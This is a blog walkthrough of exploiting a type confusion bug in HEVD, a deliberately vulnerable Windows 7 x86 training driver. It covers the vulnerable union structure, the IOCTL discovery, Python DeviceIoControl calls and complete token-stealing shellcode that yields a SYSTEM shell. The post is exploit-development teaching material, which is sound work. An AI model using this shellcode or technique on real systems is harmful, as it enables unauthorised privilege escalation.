 ```yaml
---
layout: post
title: HEVD | Windows 7 x86 Kernel Type Confusion
date: 2020-2-9
tags: HEVD, kernel exploitation
---
```


Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Kernel level Type Confusion bug vulnerability.

### Exploit development | HEVD exploitation - Windows 7 x86 Kernel Type Confusion

#### Author: FULLSHADE

----

**What are Type Confusion bugs?**

Type Confusion bugs fall into the memory corruption class family, Type Confusion bugs tend to be highly exploitable, and there a lot of in-the-wild instances of Type Confusions being exploited (commonly in Browsers like Chromes V8 Engine).

Type Confusion occurs when a program allocates resources like a pointer or variable using one type, but later on, the program tries to access the same resources using a type that is not compatible with the original setting. This is the Type *confusion*, where the types of not compatible and thus leads to a vulnerability.

So when an application doesn't verify the type of object it's processing and then processes it as some other object, an attacker can abuse this.

----

**Bugs in Kernel-mode**

Since this is dealing with a Kernel-mode driver (HEVD), we will need to utilize an IOCTL and the same `CreateFileA()` and `DeviceIoControl()` functions to establish and obtain communication to a kernel-mode driver.

----

**HEVD vulnerable code analysis**

```c++
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is properly setting 'Callback'
        // member of the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer
        // of 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
#else
        DbgPrint("[+] Triggering Type Confusion\n");

        //
        // Vulnerability Note: This is a vanilla Type Confusion vulnerability due to improper
        // use of the 'UNION' construct. The developer has not set the 'Callback' member of
        // the 'KERNEL_TYPE_CONFUSION_OBJECT' structure before passing the pointer of
        // 'KernelTypeConfusionObject' to 'TypeConfusionObjectInitializer()' function as
        // parameter
        //

        Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

(This code is taken from the TypeConfusion.c file from the HEVD source release.)

As far as good and secure practices go, the first example of a secure program functionality show, 

```c++
KernelTypeConfusionObject->Callback = &TypeConfusionObjectCallback;
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```

It's secure since the code is properly setting the `Callback` function before passing it to `KernelTypeConfusionObject` which is stored in a variable.

```c++
Status = TypeConfusionObjectInitializer(KernelTypeConfusionObject);
```
The vulnerable code is obvious since it's simply not properly setting the `Callback` before it is passing the pointer on to `KernelTypeConfusionObject` 

```c++
NTSTATUS
TypeConfusionObjectInitializer(
    _In_ PKERNEL_TYPE_CONFUSION_OBJECT KernelTypeConfusionObject
)
{
    NTSTATUS Status = STATUS_SUCCESS;

    PAGED_CODE();

    DbgPrint("[+] KernelTypeConfusionObject->Callback: 0x%p\n", KernelTypeConfusionObject->Callback);
    DbgPrint("[+] Calling Callback\n");

    KernelTypeConfusionObject->Callback();

    DbgPrint("[+] Kernel Type Confusion Object Initialized\n");

    return Status;
}
```

Within the `TypeConfusionObjectInitializer` function, there is the `PKERNEL_TYPE_CONFUSION_OBJECT` structure. This 
function will take an object and calls the function pointer which is in the object. 

The structure layout for `PKERNEL_TYPE_CONFUSION_OBJECT` structure is in TypeConfusion.h

```c++
typedef struct _USER_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    ULONG_PTR ObjectType;
} USER_TYPE_CONFUSION_OBJECT, *PUSER_TYPE_CONFUSION_OBJECT;

#pragma warning(push)
#pragma warning(disable : 4201)
typedef struct _KERNEL_TYPE_CONFUSION_OBJECT
{
    ULONG_PTR ObjectID;
    union
    {
        ULONG_PTR ObjectType;
        FunctionPointer Callback;
    };
} KERNEL_TYPE_CONFUSION_OBJECT, *PKERNEL_TYPE_CONFUSION_OBJECT;
```
Essentially,

There are two structures, a user-mode object and a kernel-mode one. The user-mode one takes an `ObjectID` and a `ObjectType` as two members, but the kernel-mode structure is a UNION, and a UNION can only hold one member at a time, and since the kernel-mode one (UNION one) has two, the `ObjectType` and the `Callback`. This is where the confusion actually occurs. When the `TriggerTypeConfusion` function doesn't validate that the second member that is passed is the `ObjectType` or `Callback`

![union holds one](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/union-one.png)

You can probably already guess how the attack will play out.

----

**Driver communication & BSOD**

To set up an initial connection to the Device driver (in kernel land), we need an IOCTL. We can use IDA Pro for IOCTL discovery within the driver or check the HEVD source code.

```c++
#define HEVD_IOCTL_TYPE_CONFUSION                                IOCTL(0x808)
```

(from HackSysExtremeVulnerableDriver.h's IOCTL CTL_CODE macro definitions)

This IOCTL can be decoded with python to:

![macro calculation](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/macro.png)

After obtaining an IOCTL (0x222023) from the driver, we can utilize the CreateFileA() function to receive a handler to the drive. 

```python
device_handle = kernel32.CreateFileA("\\\\.\HackSysExtremeVulnerableDriver",
                                        0xC0000000,
                                        0,
                                        None,
                                        0x3,
                                        0,
                                        None)
```

After obtaining and opening a handler to the device, we can use the DeviceIoControl() function combined with our previously obtained IOCTL to send data to the driver.

```python
sending_payload = kernel32.DeviceIoControl(device_handle,
                            0x222023,
                            buffer_pointer,
                            buffer_size,
                            None, 0,
                            byref(c_ulong(), 0))
```

For exploitation puposes, all you need to do is pass a structure who's second member is the address of the function you want to call from kernel-land, in this case thats the pointer and address to our shellcode payload.

----

**Token stealing shellcode payload**

As a payload to obtain NT\Authority System privileges, we will be using the same token-stealing shellcode payload as seen in previous HEVD exploitation posts.

```python

token_stealing_shellcode = (
"\x60"                            # pushad
"\x64\x8b\x80\x24\x01\x00\x00"    # mov eax,[fs:eax+0x124]
"\x8b\x40\x50"                    # mov eax,[eax+0x50]
"\x89\xc1"                        # mov ecx,eax
"\xba\x04\x00\x00\x00"            # mov edx,0x4
"\x8b\x80\xb8\x00\x00\x00"        # mov eax,[eax+0xb8]
"\x2d\xb8\x00\x00\x00"            # sub eax,0xb8
"\x39\x90\xb4\x00\x00\x00"        # cmp [eax+0xb4],edx
"\x75\xed"                        # jnz 0x1a
"\x8b\x90\xf8\x00\x00\x00"        # mov edx,[eax+0xf8]
"\x89\x91\xf8\x00\x00\x00"        # mov [ecx+0xf8],edx
"\x61"                            # popad
"\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
"\x5D"                            # pop ebp
"\xC2\x08\x00"                    # ret 8
# cleanup routine
"\x61"                            # popad
"\xc3"                            # ret
)

```

We can add a cleanup routine at the end of our shellcode payload to ensure it doesn't only last one time before the system goes BSOD. This is a POPAD followed by a RET, this will push all the register values to the stack and return to the normal program flow.

----

**Gaining full exploitation & EOP**

Now that we have the IOCTL, both functions to communicate with the driver, a pointer to out shellcode payload, and the proper cleanup function in our assembly shellcode payload, we can run the exploit against HEVD.sys

![EOP](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/typeconfusion_eop.png)

And you are presented with an NT AUTHORITY\SYSTEM spawned command prompt.

----

**Conclusion**

After finding an IOCTL and calculating it's values, we can communicate with a kernel-mode driver (HEVD.sys) and utilize a Type Confusion bug within a certain function in which we pass our IOCTL, buffer pointer, and buffer size to. Unlike the standard stack-based buffer overflow where you send the IOCTL, buffer ID, and the buffer size. Since we sent that pointer, we can take advantage of the Type Confusion bug. Giving us EOP (Escalation Of Privileges) and obtaining an NT AUTHORITY\SYSTEM shell on the system.

The full exploit code can be found [here](https://github.com/FULLSHADE/Windows-Kernel-Exploitation-HEVD/blob/master/HEVD_TypeConfusion.py)
